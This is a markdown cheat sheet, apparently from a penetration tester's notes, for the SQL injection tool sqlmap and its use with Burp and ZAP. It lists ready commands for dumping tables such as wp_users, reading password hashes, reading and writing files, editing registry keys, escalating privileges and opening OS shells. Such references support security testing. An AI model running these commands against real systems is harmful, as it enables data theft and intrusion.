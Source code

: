 ```yaml
---
title: SQLMap 
category: Web Application
order: 98
---
```


> **SQLMap Command**

{% highlight bash %}
sqlmap.py -u http://site/file.php?variable?name=vName --cookie="cookie" --proxy http://127.0.0.1:8081   --batch
sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 

#Count Rows
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --count -D sqli -T Customers

#Shell
./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 --os-shell

#Dump Tables
sqlmap.py -I rawrequest2.raw --tables
sqlmap.py -l rawrequest2.raw --dump -D wordpress -T wp_users
{% endhighlight %}

> **Riding Sessions**
*Note: This can have a performance impact*

**ZAP**
1. Click enable session tracking cookies

**Burp**
1. Click Options tab
2. Click Sessions sub-tab
3. Click Use cookies from Burps' cookie jar - Proxy, Spider, and Scanner

> **SQL Map Switches**

**Common switches:**

Discover SQL injection | <code> -u </code> 
Spider the site looking for injection points | <code> --crawl </code> 
Target forms for injection | <code> --forms </code>
Tell sqlmap the database | <code> --dbms </code> 
Capture HTTP Request or proxy log as starting point | <code> -r/-l </code> 
Manually set cookies | <code> --cookie (e.g., --cookie 'SESSID=42') </code>
Have sqlmap go through Burp/ZAP or another proxy | <code> --proxy (e.g., --proxy http://127.0.0.1:8081) </code>
Change User Agent (Default is sqlmap/#.#) | <code> --user-agent </code> 
Proved Referer <br> *WAFs may validate this (better way is use existing request -r or via a proxy)* | <code> --referer </code> 

**DB Enumeration:**

Dump the entire DMBS database | <code> --schema </code> 
To ignore system databases | <code> --exclude-sysdbs </code> 
Select database, table or Columns <br> *Be more tactical* | <code> --dbs/--tables/--columns  </code>  <br> -D/-T can be coupled with the above switch for example, list only tables in the Customer DB (-D Customer --tables)
Dump all data && metadata (scary!) | <code> --all </code> 
Count (No data exfiltrated) | <code> --count </code> 
Steals data given constraints | <code> --dump (e.g., -D Orders -T Customers --dump) </code> 
Exfiltrates all table data | <code> --dump-all </code> 
Scour DB/table/column for a string (e.g., pass) | <code> --search </code> 

**Beyond DB exfil:**

Enumerate DB user accounts | <code> --users </code> 
Show DB user account hashes | <code> --passwords </code>
Download files to attack the system | <code> --file-read </code> 
Upload files to the DB system | <code> --file-write </code>
Read/Write Windows registry keys | <code> --reg-read/--reg-write </code> 
Add/Delete Windows registry keys | <code> --reg-add/--reg-del </code> 

**Post Exploitation:**

Escalate Priv | <code> --priv-esc </code>
SQL Query | <code> --sql-query/--sql-shell </code>
OS Commands | <code> --os-cmd/--os-shell </code>
OS Pwn | <code> --os-pwn </code>

> **SQLMap with Burp/ZAP**

**Start SQLMap based on ZAP:**
1. Navigate to field with SQL injection (one that has no errors or SQL injection) -> right click on request -> save RAW
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081 


**Start SQLMap based on Burp:**
1. Navigate to request with SQL injection (one that has no errors or SQL injection) -> right click on request -> copy to file
2. ./sqlmap.py -l ~/rawrequest.raw   --proxy http://127.0.0.1:8081

**Run SQLMap in Zap**
1. tools -> optins -> applications -> add  -> 
* sqlmap
* navigate to sqlmap 
* as is
* -u %url% --cookie=%cookie% --batch
* capture output and note
* enabled
2. Right click on request in history -> run application -> SQLMap
3. Right click on request in history -> view note
4. Set up for each function you do frequently (e.g., tables, count, read file) 


> **Tools**
* [SQLMap](https://github.com/sqlmapproject/sqlmap)

